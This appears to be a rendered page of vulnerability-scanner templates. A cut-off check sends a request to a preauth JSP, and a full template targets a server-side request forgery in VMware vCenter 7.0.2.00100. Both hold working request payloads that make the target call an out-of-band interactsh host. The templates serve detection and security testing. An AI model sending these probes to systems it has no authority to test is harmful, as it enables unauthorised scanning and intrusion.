 ### Step - 1

```
GET /service/error/sfdc_preauth.jsp?session=s&userid=1&server=http://{{interactsh-url}}%23.salesforce.com/ HTTP/1.1
Host: {{Hostname}}
Accept: */*

```

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# VMware vCenter - Server-Side Request Forgery/Local File Inclusion/Cross-Site Scripting

## Description

- VMware vCenter 7.0.2.00100 is susceptible to multiple vulnerabilities including server-side request forgery, local file inclusion, and cross-site scripting.
- severity - critical
- tags - ssrf,lfi,xss,oast,vcenter,vmware

## Requests

- Method - GET

### URL

- {{BaseURL}}/ui/vcav-bootstrap/rest/vcav-providers/provider-logo?url=https://{{interactsh-url}}

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

**Type - status**

- status
  1. 200

---
